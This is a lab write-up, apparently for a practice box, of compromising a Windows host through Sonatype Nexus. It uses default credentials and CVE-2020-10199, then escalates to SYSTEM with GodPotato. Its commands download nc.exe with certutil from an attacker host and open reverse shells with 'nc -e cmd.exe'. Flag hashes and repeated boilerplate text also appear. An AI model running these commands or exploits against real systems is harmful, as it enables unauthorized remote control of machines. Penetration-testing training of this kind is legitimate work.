

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Not specified |
| Attack Surface            | Nexus Repository Manager (port 8081) |
| Primary Entry Vector      | Nexus RCE (CVE-2020-10199) with weak credentials |
| Privilege Escalation Path | SeImpersonatePrivilege → GodPotato → SYSTEM |

## Credentials

| Username | Password | Source |
|----------|----------|--------|
| nexus    | nexus    | Default credentials (discovered via cewl wordlist) |

## Reconnaissance

---
💡 Why this works
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.178.61:21
Open 192.168.178.61:80
Open 192.168.178.61:135
Open 192.168.178.61:139
Open 192.168.178.61:445
Open 192.168.178.61:8081
```

```bash
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: BaGet
8081/tcp  open  http          Jetty 9.4.18.v20190429
| http-robots.txt: 2 disallowed entries
|_/repository/ /service/
|_http-title: Nexus Repository Manager
|_http-server-header: Nexus/3.21.0-05 (OSS)
```

## Initial Foothold

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

FTP anonymous login and SMB anonymous access were both denied. A wordlist was generated from the Nexus web interface using cewl:

```bash
cewl http://$ip:8081 -d 4 -m 5 -w cewl2.txt
```

```bash
Nexus
Repository
Manager
```

Login with `nexus:nexus` succeeded. A known RCE exploit was found:

```bash
searchsploit sonatype
```

```bash
Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticated)   | java/webapps/49385.py
```

The exploit was modified to first transfer nc.exe, then establish a reverse shell:

```bash
# Step 1: transfer nc.exe
URL='http://192.168.178.61:8081'
CMD='certutil.exe -urlcache -split -f http://192.168.45.166:8001/nc.exe nc.exe'
USERNAME='nexus'
PASSWORD='nexus'
```

```bash
python3 49385.py
```

```bash
Logging in
Logged in successfully
Command executed
```

```bash
# Step 2: reverse shell
URL='http://192.168.178.61:8081'
CMD='.\\nc.exe 192.168.45.166 4444 -e cmd.exe'
USERNAME='nexus'
PASSWORD='nexus'
```

```bash
nc -lvnp 4444
```

```bash
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.61] 61477
Microsoft Windows [Version 10.0.18362.719]

C:\Users\nathan\Nexus\nexus-3.21.0-05>
```

Retrieved local.txt:

```bash
c:\Users\nathan\Desktop>type local.txt
b84cfd99205127ae1830d9608ba46322
```

💡 Why this works
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

`SeImpersonatePrivilege` was enabled and DCOM was active:

```powershell
PS C:\Users\nathan\Downloads\win_tool> whoami /priv
```

```bash
Privilege Name                Description                               State
============================= ========================================= ========
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

```powershell
Get-ItemProperty -Path "HKLM:\Software\Microsoft\OLE" | Select-Object EnableDCOM
```

```bash
EnableDCOM
----------
Y
```

GodPotato was used to escalate to SYSTEM:

```powershell
.\GodPotato.exe -cmd ".\nc.exe 192.168.45.166 4445 -e cmd.exe"
```

```bash
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 1176
```

```bash
nc -lvnp 4445
```

```bash
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.61] 61484
Microsoft Windows [Version 10.0.18362.719]

C:\Windows\system32>
```

```bash
c:\Users\Administrator\Desktop>type proof.txt
7630749e8cf7be4016112cf6b24a0a15
```

💡 Why this works
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- Change default credentials on all repository manager installations (Nexus, Artifactory, etc.).
- Apply patches promptly — CVE-2020-10199 is a critical authenticated RCE in Nexus.
- Services running with SeImpersonatePrivilege are a common escalation path on Windows; restrict this privilege carefully.
- Disable DCOM or restrict it if not required by the application.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- CVE-2020-10199: https://nvd.nist.gov/vuln/detail/CVE-2020-10199
- Exploit 49385: https://www.exploit-db.com/exploits/49385
- GodPotato: https://github.com/BeichenDream/GodPotato
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
- CeWL: https://github.com/digininja/CeWL
